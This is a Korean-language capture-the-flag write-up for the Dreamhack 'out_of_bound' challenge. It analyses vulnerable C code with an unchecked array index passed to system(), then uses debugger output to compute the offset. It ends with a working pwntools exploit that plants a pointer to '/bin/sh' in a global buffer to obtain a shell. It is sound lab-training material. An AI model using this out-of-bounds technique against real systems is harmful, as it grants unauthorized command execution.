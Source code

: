 # [Dreamhack] out_of_bound 풀이

---

# C 코드

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <string.h>

char name[16];

char *command[10] = { "cat",
    "ls",
    "id",
    "ps",
    "file ./oob" };
void alarm_handler() {

    puts("TIME OUT");
    exit(-1);
}

void initialize() {

    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main() {
    
    int idx;

    initialize();

    printf("Admin name: ");
    read(0, name, sizeof(name));
    printf("What do you want?: ");

    scanf("%d", &idx);

    system(command[idx]);

    return 0;
}
```

전역 변수로 char형 변수 name[16]이랑 포인터인 command를 선언한다.

메인 함수를 보면 첫번째로 name에 Admin name을 입력받는다.

그리고 숫자를 입력받고 포인터 배열에 있는 커맨드를 불러와서 system 명령어로 실행시킨다.

scanf에서 idx를 입력받고 sysyem함수에서 command를 불러올때 idx값이 배열의 크기를 넘는지 검사하는 부분이 없기때문에 out of bound 취약점이 발생하는것을 알 수 있다.

name에 “/bin/sh”을 입력하고 idx에 스택에 변수 name이 몇 번째에 있는지 입력해주면 해결될꺼같다.

---

# 파일 분석

우리가 디버깅을 하면서 알아내야 하는 정보를 정리해보자

- Admin name의 위치와 command 배열의 오프셋
- name에서 입력할때 저장되는 주소

디버깅은 peda를 사용했습니다.

### Admin name의 위치와 command 배열의 오프셋구하기

---

Admin name을 입력받는곳에서 aaaa를 입력한 상태이다 .

```nasm
[----------------------------------registers-----------------------------------]
EAX: 0x5 
EBX: 0xf7f9e000 --> 0x229dac 
ECX: 0x804a0ac ("aaaa\n")
EDX: 0x10 
ESI: 0xffffcfb4 --> 0xffffd191 ("/home/zergsung/pwn/dreamhack/out_of_baound/out_of_bound")
EDI: 0xf7ffcb80 --> 0x0 
EBP: 0xffffcee8 --> 0xf7ffd020 --> 0xf7ffda40 --> 0x0 
ESP: 0xffffcec0 --> 0x0 
EIP: 0x804870d (<main+66>:	add    esp,0x10)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048701 <main+54>:	push   0x804a0ac
   0x8048706 <main+59>:	push   0x0
   0x8048708 <main+61>:	call   0x80484a0 <read@plt>
=> 0x804870d <main+66>:	add    esp,0x10
   0x8048710 <main+69>:	sub    esp,0xc
   0x8048713 <main+72>:	push   0x804881e
   0x8048718 <main+77>:	call   0x80484b0 <printf@plt>
   0x804871d <main+82>:	add    esp,0x10
[------------------------------------stack-------------------------------------]
0000| 0xffffcec0 --> 0x0 
0004| 0xffffcec4 --> 0x804a0ac ("aaaa\n")
0008| 0xffffcec8 --> 0x10 
0012| 0xffffcecc --> 0x80486ec (<main+33>:	sub    esp,0xc)
0016| 0xffffced0 --> 0xffffcf10 --> 0xf7f9e000 --> 0x229dac 
0020| 0xffffced4 --> 0xf7fbe66c --> 0xf7ffdba0 --> 0xf7fbe780 --> 0xf7ffda40 --> 0x0 
0024| 0xffffced8 --> 0xf7fbeb20 --> 0xf7d8ecc6 ("GLIBC_PRIVATE")
0028| 0xffffcedc --> 0xe4b24e00 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x0804870d in main ()
```

ECX를 보면 0x804a0ac에 aaaa가 저장되는것을 알 수 있다. 

```nasm
main 함수
0x080486cb <+0>:	lea    ecx,[esp+0x4]
0x080486cf <+4>:	and    esp,0xfffffff0
0x080486d2 <+7>:	push   DWORD PTR [ecx-0x4]
0x080486d5 <+10>:	push   ebp
0x080486d6 <+11>:	mov    ebp,esp
0x080486d8 <+13>:	push   ecx
0x080486d9 <+14>:	sub    esp,0x14
0x080486dc <+17>:	mov    eax,gs:0x14
0x080486e2 <+23>:	mov    DWORD PTR [ebp-0xc],eax
0x080486e5 <+26>:	xor    eax,eax
0x080486e7 <+28>:	call   0x804867b <initialize>
0x080486ec <+33>:	sub    esp,0xc
0x080486ef <+36>:	push   0x8048811
0x080486f4 <+41>:	call   0x80484b0 <printf@plt>
0x080486f9 <+46>:	add    esp,0x10
0x080486fc <+49>:	sub    esp,0x4
0x080486ff <+52>:	push   0x10
0x08048701 <+54>:	push   0x804a0ac
0x08048706 <+59>:	push   0x0
0x08048708 <+61>:	call   0x80484a0 <read@plt>
0x0804870d <+66>:	add    esp,0x10
0x08048710 <+69>:	sub    esp,0xc
0x08048713 <+72>:	push   0x804881e
0x08048718 <+77>:	call   0x80484b0 <printf@plt>
0x0804871d <+82>:	add    esp,0x10
0x08048720 <+85>:	sub    esp,0x8
0x08048723 <+88>:	lea    eax,[ebp-0x10]
0x08048726 <+91>:	push   eax
0x08048727 <+92>:	push   0x8048832
0x0804872c <+97>:	call   0x8048540 <__isoc99_scanf@plt>
0x08048731 <+102>:	add    esp,0x10
0x08048734 <+105>:	mov    eax,DWORD PTR [ebp-0x10]
0x08048737 <+108>:	mov    eax,DWORD PTR [eax*4+0x804a060]
0x0804873e <+115>:	sub    esp,0xc
0x08048741 <+118>:	push   eax
0x08048742 <+119>:	call   0x8048500 <system@plt>
0x08048747 <+124>:	add    esp,0x10
0x0804874a <+127>:	mov    eax,0x0
0x0804874f <+132>:	mov    edx,DWORD PTR [ebp-0xc]
0x08048752 <+135>:	xor    edx,DWORD PTR gs:0x14
0x08048759 <+142>:	je     0x8048760 <main+149>
0x0804875b <+144>:	call   0x80484e0 <__stack_chk_fail@plt>
0x08048760 <+149>:	mov    ecx,DWORD PTR [ebp-0x4]
0x08048763 <+152>:	leave  
0x08048764 <+153>:	lea    esp,[ecx-0x4]
0x08048767 <+156>:	ret    
End of assembler dump.
```

위에 main함수의 108번째줄을 보면 0x804a060에서 가져오는것을 볼수있다.

그럼 (0x804a0ac - 0x804a060)/4 를 해주면 오프셋을 구할 수 있다. 4를 나눠주는이유는 포인터 배열이 하나당 4바이트를 할당하기 때문이다. 

계산해보면 19가 나온다.

### name에 쉘코드 삽입하기

---

c언어 코드를 보면 command 배열이 포인터로 선언되는것을 알수있다. 그렇기 때문에 Admin name에 바로 쉘코드를 삽입하면 그 쉘코드가 16진수로 바뀐주소에 있는값을 가져오기 때문에 오류가 난다. 그렇기 때문에 우리는 먼저 쉘코드가 있을 주소 4바이트를 입력한후 그 주소에 쉘코드를 써주면 된다.

그렇기에 쉘코드는 name의 주소에 name의 주소값을 더한 4바이트 큰 name + 4 에 위치하게 된다. 

그럼 우린입력할때 name주소+4다음 쉘코드를 입력하면 될것이다.

이제 모든 정보를 얻었으니 익스플로잇 코드를 짜보자.

---

# Exploit

```python
from pwn import *

#p = remote("host3.dreamhack.games", 9469)
p = process("./oob")

shell = b"/bin/sh"
name = 0x804a0ac

p.recvuntil(b'name:')

payload = p32(name+4) + shell

p.sendline(payload)
p.recvuntil(b'want?:')
p.sendline(b'19')
p.interactive()
```

![Untitled](%5BDreamhack%5D%20out_of_bound%20%E1%84%91%E1%85%AE%E1%86%AF%E1%84%8B%E1%85%B5%2003a043b7cd0b4472a3605f07db3e7aa7/Untitled.png)

쉘이 따진 걸 볼 수 있다.